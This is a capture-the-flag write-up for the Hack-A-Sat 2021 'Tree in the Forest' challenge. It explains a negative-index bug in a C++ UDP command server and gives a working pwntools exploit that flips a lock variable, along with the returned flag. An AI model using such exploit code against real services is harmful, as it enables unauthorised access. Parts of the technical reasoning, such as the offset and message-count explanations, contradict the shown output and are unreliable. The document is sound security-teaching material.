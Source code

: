 ```yaml
---
title: "Hack-A-Sat 2021: Tree in the Forest"
summary: "Tree in the forest"
date: 2021-06-30
categories:
  - "writeups"
tags:
  - "exploitation"
---
```


**Category:** Exploitation  
**Points:** 31  
**Provided:** [parser.c](https://github.com/starfleetcadet75/writeups/blob/master/2021-Hack-A-Sat/tree-in-the-forest/parser.c?raw=true)

## Challenge

> ```none
> CC=g++-9.3.0
> 
> challenge: src/parser.c
>     $(CC) src/parser.c -o $@
> ```
>
> Connect to the challenge on:
> `lucky-tree.satellitesabove.me:5008`

## Observations

We are provided with a C source file and the contents of a Makefile for compiling it.
The program is a simple UDP server that listens for messages on port 54321.
It continously receives messages in an infinite processing loop.

```cpp
do{
    std::stringstream response;
    socklen_t len;
    int n;
    len = sizeof(cliaddr);

    n = recvfrom(sockfd, (char *)buffer, sizeof(command_header), MSG_WAITALL, (struct sockaddr *)&cliaddr, &len);

    if (n != sizeof(command_header)){ // this should never happen, due to UDP
      response << "Invalid length of command header, expected "<<sizeof(command_header)<<" but got "<<n<<std::endl;
    } else {
      command_header* header = (command_header*)buffer;
      response<<"Command header acknowledge: version:"<<header->version<<" type:"<<header->type<<" id:"<<header->id<<std::endl;

      if (header->id >= COMMAND_LIST_LENGTH){
        response<<"Invalid id:"<<header->id<<std::endl;
      } else {

        // Log the message in the command log
        command_log[header->id]++;

        // Handle the message, return the response
        response<<handle_message(header)<<std::endl;
      }
    }

    sendto(sockfd, response.str().c_str(), response.str().length(), MSG_CONFIRM, (const struct sockaddr *) &cliaddr, len);
} while(1);
```

Each message must be 64 bytes long so that it can be processed as a `command_header` struct.
The `version` and `type` fields are displayed on stdout but otherwise never used.

```cpp
typedef struct command_header {
    short version : 16;
    short type : 16;
    command_id_type id : 32;
} command_header;
```

`command_id_type` identifies the type of command based on an enumeration of 10 message types.
The last entry, `COMMAND_GETKEYS`, instructs the server to return the flag if the global variable `lock_state` is set to UNLOCKED.

```cpp
// Logs how many times each command has been hit.
// Has a simple security feature that hides data from the user.
typedef enum command_id_type {
    COMMAND_ADCS_ON = 0,
    COMMAND_ADCS_OFF = 1,
    COMMAND_CNDH_ON = 2,
    COMMAND_CNDH_OFF = 3,
    COMMAND_SPM = 4,
    COMMAND_EPM = 5,
    COMMAND_RCM = 6,
    COMMAND_DCM = 7,
    COMMAND_TTEST = 8,
    COMMAND_GETKEYS = 9, // only allowed in unlocked state
} command_id_type;
```

The processing loop records each valid command that is received by incrementing the `command_log` array indexed by `id`.
Note that `lock_state` happens to be declared directly before the `command_log` array.

```cpp
// Globals used in this program, used to store command log and locked/unlocked state
unsigned int lock_state;
char command_log[COMMAND_LIST_LENGTH];
```

## Solution

The vulnerability in this program is that the processing loop only validates that `id` is greater than or equal to 10.
This check permits negative `id` values to be used as an index into the `command_log` array.
Since the `lock_state` variable is located directly before the array on the stack, incrementing `command_log[-1]` causes `lock_state` to be incremented instead of a valid entry in the array.

```cpp
if (header->id >= COMMAND_LIST_LENGTH){
    response<<"Invalid id:"<<header->id<<std::endl;
} else {
    // Log the message in the command log
    command_log[header->id]++;

    // Handle the message, return the response
    response<<handle_message(header)<<std::endl;
}
```

We must set the value of `lock_state` to 0, however we can only increment the value.
Since the server runs in an infinite loop, we can just send 255 messages to cause `lock_state` to overflow back to a value of 0.
The actual `id` value we need to send is not -1 but -8 since the size of each array entry and `lock_state` are 64 bits.

```python
from pwn import *
import socket

def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    #s.connect(("localhost", 54321))
    s.connect(("18.118.161.198", 10444))
    return s

def exploit(p):
    # Send the malicious message 255 times
    for i in range(255):
        msg = b""
        msg += p16(1)  # version = 1
        msg += p16(2)  # type = 2
        msg += p32(0xfffffff8)  # id = 0xfffffff8 = -8
        p.send(msg)
        print(p.recvfrom(1024))

    msg = b""
    msg += p16(2)  # version = 2
    msg += p16(4)  # type = 4
    msg += p32(9)  # id = COMMAND_GETKEYS
    p.send(msg)
    print(p.recvfrom(1024))

p = connect()
exploit(p)
```

The server outputs the flag after 255 iterations:

```none
(b'Command header acknowledge: version:1 type:2 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 10444))
(b'Command header acknowledge: version:1 type:2 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 10444))
(b'Command header acknowledge: version:1 type:2 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 10444))
(b'Command header acknowledge: version:1 type:2 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 10444))
(b'Command header acknowledge: version:1 type:2 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 10444))
(b'Command header acknowledge: version:1 type:2 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 10444))
(b'Command header acknowledge: version:1 type:2 id:-8\nCommand Success: LOCKED\n', ('18.118.161.198', 10444))
(b'Command header acknowledge: version:1 type:2 id:-8\nCommand Success: UNLOCKED\n', ('18.118.161.198', 10444))
(b'Command header acknowledge: version:2 type:4 id:9\nflag{hotel771085mike2:GDNSSINe9Y1jIMMauT0hcP4AAtJ0lAdSGD2WGrozvH79QG0xDaF9YFJhrmzv_YAw5ggfPT8YRBOQ0smqzWgDV3s}\n', ('18.118.161.198', 10444))
```

